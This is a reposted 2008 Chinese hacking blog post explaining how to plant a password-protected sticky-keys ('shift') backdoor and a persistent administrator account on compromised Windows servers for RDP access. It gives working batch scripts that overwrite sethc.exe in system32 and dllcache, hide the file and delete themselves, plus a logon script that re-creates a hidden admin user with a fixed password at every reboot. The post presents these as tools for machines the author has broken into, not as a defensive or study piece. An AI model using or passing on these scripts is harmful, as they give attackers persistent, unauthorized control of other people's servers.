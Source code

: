 ```yaml
---
title: shift后门加密版制作及不死3389帐号建立
description: 前段时间去一个流量过百万的站的服务器上参观,朋友加了一个shift后门并称该后门是很久以前他公布的,具体情况我也没多问,回来后自己也做了一个加密码的shift后门.利用winrar加密的.很简单,火力群里一个小弟弟问我怎么做的,叫我写个说明,那么我就简单介绍一下制作过程-Amxking 1.我们首先建立一个名为win.rar的压缩包,及一个批处理命令名为AK.bat的文件. 2.再把这个批处理文件AK.bat加到win.rar压缩包内加密．在高级选项里设置密码如：！＠＃＄％＾＆
date: 2008-01-16 10:44:54
category: 技术文章
tags: ['技术类', '3389', '后门', 'DOS批处理bat', '技巧']
post_id: 334
alias: 5-shift-backdoor-3389
ViewNums: 16202
---
```


From: [amxking.bokee.com](http://amxking.bokee.com)

前段时间去一个流量过百万的站的服务器上参观,朋友加了一个shift后门并称该后门是很久以前他公布的,具体情况我也没多问,回来后自己也做了一个加密码的[shift后门](/blog/5shift-sethc).利用winrar加密的.很简单,火力群里一个小弟弟问我怎么做的,叫我写个说明,那么我就简单介绍一下制作过程-Amxking

1.我们首先建立一个名为win.rar的压缩包,及一个批处理命令名为AK.bat的文件.

2.再把这个批处理文件AK.bat加到win.rar压缩包内加密．在高级选项里设置密码如：！＠＃＄％＾＆

3.将win.rar做成自解压格式:

添加新的自解压→Default.SFX 图形界面 RAR自解压模块→高级自解压选项→解压后运行(添加: cmd.exe 也有用%SystemRoot%explorer.exe的)→模式→选择:全部隐藏+覆盖所有文件→确定

4.然后我们再建立一个批处理文件RU.BAT,用来将win.exe(win.rar做成自解压后生成的文件)替换到system32下.

主要实现目的为执行:

copy win.exe C:WINDOWSsystem32sethc.exe /y
                     copy win.exe C:WINDOWSsystem32dllcachesethc.exe /y

这是一位网友写的[批处理](/tags/DOS%E6%89%B9%E5%A4%84%E7%90%86bat)RU.BAT,可以借鉴.都是满简单的.

@echo off
cls

copy win.exe C:WINDOWSsystem32sethc.exe
copy win.exe C:WINDOWSsystem32dllcachesethc.exe
attrib C:WINDOWSsystem32sethc.exe sethc.exe
attrib C:WINDOWSsystem32dllcachesethc.exe +h
echo
cls
echo.
del win.exe

del %0%

5.将RU.BAT及WIN.EXE传到肉鸡上并运行RU.BAT就完成了shift后门的安装.

**不死3389帐号:**

关于不死帐号的方法常见的几种中我们今天简单的介绍一种依靠特殊路径开机自动执行BAT命令添加管理帐户的方法.很简单,一看就明白了,这里我也不多做解释了:

制作批处理文件ad.bat ,代码内容为:

@echo off

cls

net user amxking /del
net user amxking !@#$%^&*(000 /add     注释：前面amxking是用户名后面!@#$%^&*(000 是密码,如此设置一是安全目的,二是方便通过具有密码策略的效验,注意不要超过14位,否则有些老版本系统不支持;

net localgroup administrators amxking /add

将ad.bat上传到肉鸡上,路径为:

C:WINDOWSsystem32GroupPolicyUserScriptsLogon

这样只要肉鸡服务器重起就会执行ad.bat将我们的帐户添加并提权为管理帐户.也就实现了所谓的不死帐号.

注意: 路径在具体过程中需要自己修改,别抱着C:WINDOWS就不变,脑袋要灵活点,哪里是%SystemRoot% 就改成哪里.^_^

PS:按[5次shift键后门](/blog/5shift-sethc).exe 工具如果再加些功能比如设置密码,那就不用这么麻烦了

